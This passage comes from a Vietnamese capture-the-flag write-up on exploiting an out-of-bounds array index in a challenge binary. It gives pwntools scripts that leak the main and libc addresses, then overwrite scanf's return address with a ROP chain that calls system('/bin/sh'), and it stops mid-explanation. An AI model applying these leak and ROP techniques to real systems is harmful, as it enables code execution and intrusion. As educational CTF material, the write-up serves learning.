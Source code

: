 > Từ đây ta có thể thấy tồn tại địa chỉ main tại địa chỉ 0x7fffffffdd28 và địa chỉ libc tại 0x7fffffffdd00. Vậy ta sẽ thực thi leak 2 địa chỉ này và tính toán cho ra địa chỉ exe base và libc base. Ta có script:
> ```
> # Use oob at choice 1 can leak main address (idx: -11) and libc address (idx: -16)
> sla(b'> ',b'1')
> sla(b'idx: ',b'-11')
> ru(b'index -11 is ')
> main = int(rl())
> info("Main leak: "+hex(main))
> exe.address = main - 0x1682
> 
> sla(b'> ',b'1')
> sla(b'idx: ',b'-16')
> ru(b'index -16 is ')
> libc_leak = int(rl())
> info("Libc leak: "+hex(libc_leak))
> libc.address = libc_leak - 0x29d90 
> 
> info("Exe base: "+hex(exe.address))
> info("Libc base: "+hex(libc.address))
> ```
> Ta cho chạy thử script và ta kiểm tra xem các địa chỉ đã được leak ra đúng chưa:
> ![{B95C0E9B-7D96-477A-8383-84AF40BDCAAE}](https://hackmd.io/_uploads/HJxNW1JoJx.png)
> Vậy các địa chỉ đều trùng khớp.
- Cooking shell =)))
> Như ở bước checksec, các phương án đều không khả thi và hiện tại điều chúng ta có thể làm là ghi đè địa chỉ nào đó trên stack thông qua lựa chọn 2. 
> Vì vậy ta sẽ đi khảo sát sâu hơn vào các hàm nhỏ như scanf:
> ![{5E296D91-7FE5-4A27-9EA3-434265EDEB02}](https://hackmd.io/_uploads/Hki0jNgjJg.png)
> Như vậy ta nhận thấy rằng các hàm như scanf đều có các lệnh thực hiện nhỏ hơn và cũng hoạt động và trả về như những hàm khác và điều đặc biệt ở đây là tại scanf return, rsp đang trỏ đến một địa chỉ trên stack và tại đó đang lưu trữ địa chỉ trả về của scanf là main+547. 
> Và khi ta khảo sát bằng lựa chọn 2 và index = -1 thì ta được stack:
> ![{43732774-75E8-4CB3-BF83-48AB27C1470D}](https://hackmd.io/_uploads/HJ7xJrlsJx.png)
> Với index = -1 thì địa chỉ stack được tính toán là 0x7fffffffdd98 và so với địa chỉ rsp của scanf là 0x7fffffffdd78 thì ta nhận thấy ta có thể tiếp cận với return address của scanf bằng index -5.
> Tuy nhiên tại đây scanf đang có định dạng là một số nên ta chỉ được phép nhập một địa chỉ dưới dạng số nguyên.
> Vậy đến đây ta sẽ xác định hướng khai thác là sử dụng kĩ thuật ROPchain để khai thác bằng gdaget để điều khiển thanh ghi rdi với chuỗi "/bin/sh" và gọi hàm system để thực thi.
> Ta có script đơn giản:
> ```
> binsh = next(libc.search("/bin/sh\0"))
> # sla(b'> ',b'2')
> # sla(b'idx: ',b'-2') # #idx = (adr[idx=0] - adr[adx=n])/8
> # sla(b'Enter price: ',f'{ret}'.encode())
> 
> sla(b'> ',b'2')
> sla(b'idx: ',b'-4')
> sla(b'Enter price: ',f'{prdi}'.encode())
> 
> sla(b'> ',b'2')
> sla(b'idx: ',b'-3')
> sla(b'Enter price: ',f'{binsh}'.encode())
> 
> sla(b'> ',b'2')
> sla(b'idx: ',b'-2')
> sla(b'Enter price: ',f'{libc.sym.system}'.encode())
> ```
> Với địa chỉ binary và địa chỉ libc đã được leak thì việc gọi hàm và và tìm kiễm chuỗi trên stack là đơn giản. Tuy nhiên ta vướng phải một vấn đề ở đây là nếu ta ghi trực tiếp những gadget trên ở ngay dưới index -5 lần lượt là [-4; -3; -2] thì tại -4 và -3 sẽ bị các giá trị của scanf ghi đè vào dữ liệu: